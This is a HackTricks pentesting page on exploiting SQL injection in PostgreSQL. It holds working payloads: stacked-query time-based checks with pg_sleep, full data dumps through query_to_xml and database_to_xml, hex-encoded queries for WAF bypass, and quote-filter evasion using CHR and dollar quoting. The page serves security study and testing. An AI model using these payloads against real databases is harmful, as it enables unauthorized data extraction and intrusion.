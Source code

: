 # PostgreSQL injection

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If you are interested in **hacking career** and hack the unhackable - **we are hiring!** (_fluent polish written and spoken required_).

{% embed url="https://www.stmcyber.com/careers" %}

***

**This page aims to explain different tricks that could help you to exploit a SQLinjection found in a postgresql database and to compliment the tricks you can find on** [**https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md)

## Network Interaction - Privilege Escalation, Port Scanner, NTLM challenge response disclosure & Exfiltration

The **PostgreSQL module `dblink`** offers capabilities for connecting to other PostgreSQL instances and executing TCP connections. These features, combined with the `COPY FROM` functionality, enable actions like privilege escalation, port scanning, and NTLM challenge response capture. For detailed methods on executing these attacks check how to [perform these attacks](network-privesc-port-scanner-and-ntlm-chanllenge-response-disclosure.md).

### **Exfiltration example using dblink and large objects**

You can [**read this example**](dblink-lo\_import-data-exfiltration.md) to see a CTF example of **how to load data inside large objects and then exfiltrate the content of large objects inside the username** of the function `dblink_connect`.

## PostgreSQL Attacks: Read/write, RCE, privesc

Check how to compromise the host and escalate privileges from PostgreSQL in:

{% content-ref url="../../../network-services-pentesting/pentesting-postgresql.md" %}
[pentesting-postgresql.md](../../../network-services-pentesting/pentesting-postgresql.md)
{% endcontent-ref %}

## WAF bypass

### PostgreSQL String functions

Manipulating strings could help you to **bypass WAFs or other restrictions**.\
[**In this page** ](https://www.postgresqltutorial.com/postgresql-string-functions/)**you can find some useful Strings functions.**

### Stacked Queries

Remember that postgresql support stacked queries, but several application will throw an error if 2 responses are returned when expecting just 1. But, you can still abuse the stacked queries via Time injection:

```
id=1; select pg_sleep(10);-- -
1; SELECT case when (SELECT current_setting('is_superuser'))='on' then pg_sleep(10) end;-- -
```

### XML tricks

**query\_to\_xml**

This function will return all the data in XML format in just one file. It's ideal if you want to dump a lot of data in just 1 row:

```sql
SELECT query_to_xml('select * from pg_user',true,true,'');
```

**database\_to\_xml**

This function will dump the whole database in XML format in just 1 row (be careful if the database is very big as you may DoS it or even your own client):

```sql
SELECT database_to_xml(true,true,'');
```

### Strings in Hex

If you can run **queries** passing them **inside a string** (for example using the **`query_to_xml`** function). **You can use the convert\_from to pass the string as hex and bypass filters this way:**

{% code overflow="wrap" %}
```sql
select encode('select cast(string_agg(table_name, '','') as int) from information_schema.tables', 'hex'), convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573', 'UTF8');

# Bypass via stacked queries + error based + query_to_xml with hex
;select query_to_xml(convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573','UTF8'),true,true,'')-- -h

# Bypass via boolean + error based + query_to_xml with hex
1 or '1' = (query_to_xml(convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573','UTF8'),true,true,''))::text-- -
```
{% endcode %}

### Forbidden quotes

If cannot use quotes for your payload you could bypass this with `CHR` for basic clauses (_character concatenation only works for basic queries such as SELECT, INSERT, DELETE, etc. It does not work for all SQL statements_):

```
SELECT CHR(65) || CHR(87) || CHR(65) || CHR(69);
```

Or with `$`. This queries return the same results:

```
SELECT 'hacktricks';
SELECT $$hacktricks$$;
SELECT $TAG$hacktricks$TAG$;
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If you are interested in **hacking career** and hack the unhackable - **we are hiring!** (_fluent polish written and spoken required_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
